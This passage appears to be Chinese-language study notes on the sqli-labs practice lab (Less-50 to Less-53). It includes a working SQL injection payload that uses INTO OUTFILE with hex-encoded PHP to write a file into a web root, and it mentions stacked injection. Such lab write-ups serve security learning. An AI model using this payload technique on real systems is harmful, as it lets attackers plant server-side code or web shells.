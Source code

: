 可以写文件

http://192.168.1.119:1235/sqli-labs/Less-50/?sort=1 into outfile "E:\\phpstudy_pro\\WWW\\sqli-labs\\Less-50\\hack.php"lines terminated by 0x3c3f70687020706870696e666f28293b3f3e2020--+

但是写文件不常见，且这里存在`if (mysqli_multi_query($con1, $sql))`，所以还可以使用堆叠注入。

insert update。。

## Less-51

单引号闭合

## Less-52

同50，关闭了报错

## Less-53

同51，关闭了报错。

# Challenges

🕊

